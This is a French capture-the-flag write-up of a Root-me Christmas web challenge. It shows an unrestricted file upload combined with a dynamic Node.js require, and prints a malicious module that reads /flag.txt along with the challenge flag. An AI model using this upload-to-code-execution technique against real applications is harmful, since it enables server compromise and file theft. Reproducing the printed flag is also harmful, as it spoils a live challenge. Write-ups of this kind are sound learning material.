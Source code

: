 ```yaml
---
title: "(French) Root-me Xmas first day : Generous Santa"
type: "articles"
date: 2024-12-30 15:30:00
author: "Mathieu"
description: ""
layout: "articles"  # Optionnel : définit le layout utilisé pour cette page
---
```


### Generous santa

Le site propose deux fonctions :
* Ajouter des cadeaux à sa liste de noël parmi la liste proposée
* Suggérer une idée de cadeau à ajouter dans la liste

Deux fonctions sont proposées sur le site de commande de cadeaux et qu'on peut retrouver dans le code source en tant que fonction backend

**/api/suggest**
```js
const now = new Date();
const dateStr = now.toISOString().split('T')[0];
const timeStr = `${now.getHours()}-${now.getMinutes()}-${now.getSeconds()}`;
const tempDir = path.join('/tmp', `${dateStr}_${timeStr}`);
fs.mkdirSync(tempDir, { recursive: true });
const tempPath = path.join(tempDir, req.file.originalname);
fs.writeFile(tempPath, req.file.buffer, (err) => {
if (err) {
	return res.status(500).json({ message: `Error saving the image: ${err.message}` });
}
res.json({ message: `Thank you! Santa will consider your suggestion.`, photoPath: tempPath });
});
```
Qui permet de renseigner un nom de produit au père noël et d'uploader une photo du produit dans le répertoire /tmp/'date'/'filename'/

**/api/add**
```js
const Gift = require(`../models/${product.toLowerCase()}`);
const gift = new Gift({ name: product, description: `Description of ${product}` });
output = gift.store();
res.json({ success: true, output: output });
```

Le code appel un template javascript dans le sous-répertoire 'app path'/models/'product name'. 

En jouant un peu avec la fonction d'upload, on se rend compte qu'il n'y a aucune restriction sur le type de fichier qu'on peut upload. 

En ayant inspectant les requêtes, on remarque que /api/add renvoie un message de succès plusieurs champs. On va s'en servir pour exfiltrer le contenu du flag.

![basic request](chall_xmas_1_1.png)

En écrivant un module personnalisé, et en l'uploadant :

```js
const fs = require('fs');

class Gift {
    constructor({ name = 'Default Gift', description = 'Default Description' } = {}) {
        this.name = name;
        this.description = description;
    }
    store() {
        try {
            const flagContent = fs.readFileSync('/flag.txt', 'utf8');
            return `${flagContent}`;
        } catch (err) {
            console.error('Erreur lors de la lecture de /flag.txt :', err.message);
        }
        return "Une erreur est survenue lors de la lecture du flag :/";
    }
}

module.exports = Gift;
```

![upload request](chall_xmas_1_2.png)

Il est possible d'éxecuter le code à l'aide de cette requête :

![flag](chall_xmas_1_3.png)

Here's the flag :) `RM{Mayb3_S4nt4_Cl4uS_Als0_G3t_A_Flag}`

